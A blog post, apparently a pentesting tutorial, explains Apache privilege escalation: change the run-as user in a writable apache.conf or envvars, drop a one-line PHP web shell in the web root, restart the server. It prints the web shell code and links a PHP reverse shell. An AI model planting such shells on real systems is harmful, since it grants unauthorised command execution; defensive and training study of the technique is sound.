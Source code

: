 +++
author = "kiwiyumi"
date = "2024-05-31"
description = "Abusing  Apache Misconfiguration - Privilege Escalation"
title = "Abusing  Apache Misconfiguration - Privilege Escalation"
tags = [
    "privesc",
    "apache",
    "Web-server"
]
+++

<!--more-->

In this article, we're going to talk about a technique for escalating privileges, where the initial vector comes from the misconfiguration of the widely known server, Apache!

# A little introduction to Apache

It all started in 1995, when the Apache HTTP server project was created with the aim of creating and maintaining an open source HTTP server for modern operating systems, mainly UNIX and Windows. Maintaining efficiency, security and synchronization with current HTTP protocol standards.

> "The Number One HTTP Server On The Internet" - Apache Official Website.

# Overview 

When installing the Apache server on your machine, ubuntu for example, you can locate the configuration files in **/etc/apache2**. The following images show an example of the files and directories created:

![Config files!](/assets/images/abusing-apache-misconfiguration-privilege-escalation/6bf835ee-e63a-4d03-b465-4e358df6730f.png)


# How to check this vulnerability

If you have permissions to restart the apache server, either because of a misconfiguration or because you can run as root. The following code exemplifies a **sudo -l** for a user:

```bash
User www-data may run the following commands on machine:
    (ALL) NOPASSWD: /usr/sbin/service apache2 restart
```


The vulnerability in question is due to improper permission to write from **apache.conf** or **envvars**, as these files define which user will run apache.

The following image shows an incorrectly configured **apache.conf** file:

```bash
ls -la /etc/apache2/apache.conf
```

![](/assets/images/abusing-apache-misconfiguration-privilege-escalation/a74938bb-f1a0-40a5-bc2b-c2016f2c51ea.png)

The following image shows an incorrectly configured **envvars** file:

```bash
ls -la /etc/apache2/envvars
```

![](/assets/images/abusing-apache-misconfiguration-privilege-escalation/fb671cd9-31a5-47bf-bc13-c822054296af.png)

# Exploit - The best part

### 1 - Change the files

Depending on your operating scenario, you'll need to make changes in different ways, so below you can see some of the ways you can change users.

In the **apache.conf** file, change the following user and group lines to the existing users on your machine, in the example user john:

![](/assets/images/abusing-apache-misconfiguration-privilege-escalation/c55311ad-6e8a-40d3-995a-6f1a544d7408.png)

In the **envvars** file, change the following variables for existing users on your machine, in the example user john:

![](/assets/images/abusing-apache-misconfiguration-privilege-escalation/aa10e0d4-f4a8-4662-ba7d-f6a68fd8d9e3.png)

### 2 - Create a maliciuos file

As an example, I created the following PHP code in the **/var/www/html** directory, called **file.php**:

```php
<?php
    system($_REQUEST['cmd']);
?>
```

You can certainly create a file with a web shell or use a revese shell, like the one in [pentest monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

### 3 - Restart the Apache Server

Before you finish, simply restart the Apache server to update the settings we have installed.

```
sudo /usr/bin/service restart apache2
```

### 4 - Go pwned

Access your file and happy ending:

![](/assets/images/abusing-apache-misconfiguration-privilege-escalation/aa10e0d4-f4a8-4662-ba7d-f6a68fd8d9e3.png)

# Fonts

- Apache HTTP Server Project. (2024, May 31). Apache Software Foundation. [http://httpd.apache.org/](http://httpd.apache.org/)
- Apache configuration privilege escalation. (2024, May 31). Exploit Notes. [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/apache-conf-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/apache-conf-privilege-escalation/)
